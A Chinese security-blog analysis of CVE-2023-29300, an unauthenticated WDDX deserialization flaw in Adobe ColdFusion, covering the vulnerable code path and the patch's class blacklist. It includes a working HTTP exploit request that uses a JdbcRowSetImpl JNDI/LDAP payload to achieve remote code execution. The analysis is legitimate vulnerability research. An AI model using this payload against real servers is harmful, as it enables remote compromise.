

# Adobe ColdFusion 未授权反序列化分析 CVE-2023-29300 - 先知社区

Adobe ColdFusion 未授权反序列化分析 CVE-2023-29300

- - -

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126081313-b1ff1508-bbdf-1.png)

漏洞利用条件：无  
漏洞影响版本：Adobe ColdFusion < 2018.0.18、Adobe ColdFusion < 2021.0.7  
本文分析环境：Adobe Fusion 2018.0.15 版本

## 前言

Adobe ColdFusion 是一种用于构建动态 Web 应用程序的服务器端编程语言和开发平台。它由 Adobe Systems 开发和维护。ColdFusion 的主要目标是简化 Web 应用程序的开发过程，通过提供一个强大且易于使用的平台，使开发人员能够快速构建功能丰富的 Web 应用。

## 漏洞分析

[上篇文章](https://xz.aliyun.com/t/13392) ，我们讲到 **coldfusion.filter.FilterUtils#WDDXDeserialize()** 里存在一个反序列化操作，里面反序列化处理类为 **coldfusion.wddx.WddxDeserializer** 。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126081328-babec3e6-bbdf-1.png)

我们可以先来简单的看一下 **Adobe ColdFusion** 中，对 **wddx** 数据的序列化和反序列化操作。先来看序列化。当我们使用 **coldfusion.wddx.WddxSerializer** 序列化一个对象时，序列化的结果会保存这个对象的完整信息。这些信息包括：类名、属性名、属性值。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126081337-c024a062-bbdf-1.png)

```plain
<wddxPacket version='1.0'><header/><data><struct type='LUser;'><var name='password'><string>123456</string></var><var name='username'><string>mochazz</string></var></struct></data></wddxPacket>
```

那么我们能通过反序列化，将这串 **xml** 还原成一个类吗？答案是：可以。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126081346-c5ae10e0-bbdf-1.png)

接下来，我们来看看 **coldfusion.wddx.WddxDeserializer** 是如何将 **wddx** 数据，恢复成一个对象的。我们在上面的 **xml** 数据中，能看到很多不同的标签，比如：**wddxPacket、header、struct、var** 等。每个标签实际上都有一个对应的 **handler** ，**xml** 解析器后续会依次调用这些 **handler** 的 **onStartElement()、onEndElement()** 方法。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126081356-cb8b4050-bbdf-1.png)

我们来看 **StructHandler** 的 **onEndElement()** 方法。该方法有 3 个关键操作。

-   第 1 个操作：会把 **type** 的值作为类名，并调用 **getClassBySignature()** 去加载这个类
-   第 2 个操作：调用这个类的无参构造方法
-   第 3 个操作：调用 **setter** 方法给类的属性赋值

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126081404-d0643d66-bbdf-1.png)

根据 **getClassBySignature()** 方法加载类的规则，当我们指定 **type** 的值为 **Ejava.lang.StringE** 时，即可加载到 **java.lang.String** 类。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126081412-d53d87d4-bbdf-1.png)

接着再来看 **coldfusion.wddx.StructHandler#setBeanProperties()** 方法是如何给类的属性赋值的。程序通过遍历目标对象的 **PropertyDescriptor** ，并根据用户输入的类属性名，调用对应的 **setter** 方法。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126081420-da3ce180-bbdf-1.png)

因此，我们可以得到一个结论： **coldfusion.filter.FilterUtils#WDDXDeserialize()** 函数可以调用任意类的 **setter** 方法。当然，调用的前提是目标类得有公有的无参构造方法，以及公有的单参数 **setter** 方法。这里，我们就可以选择最常被利用的 **com.sun.rowset.JdbcRowSetImpl** 类，通过触发 **JNDI** 实现 **RCE** 。

## 漏洞利用

```plain
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/filemanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: 127.0.0.1:8500
Content-Length: 270
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close

argumentCollection=<wddxPacket version='1.0'><header/><data><struct type='Ecom.sun.rowset.JdbcRowSetImplE'><var name='dataSourceName'><string>ldap://127.0.0.1:8888/exploit</string></var><var name='autoCommit'><boolean value='true'/></var></struct></data></wddxPacket>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126081430-e0361bb0-bbdf-1.png)

## 补丁分析

官方补丁中，添加了一个 **coldfusion.wddx.WddxFilter** 过滤器，通过黑、白名单来过滤反序列化加载的类名。以 **coldfusion** 开头的类，均属于白名单。黑名单规则为： **!org.mozilla.\*\*;!com.sun.syndication.\*\*;!org.apache.commons.beanutils.\*\*;!org.jgroups.\*\*;!com.sun.rowset.\*\*;** 。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126081441-e6b4fd44-bbdf-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126081446-e986e5be-bbdf-1.png)

从官方拦截的黑名单中，我们可以倒推出漏洞提交者使用的一些恶意类。例如：通过 **org.jgroups.blocks.ReplicatedTree.setState()** 进行二次反序列化。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126081456-ef30a540-bbdf-1.png)

## 参考文章

[https://blog.projectdiscovery.io/adobe-coldfusion-rce/](https://blog.projectdiscovery.io/adobe-coldfusion-rce/)
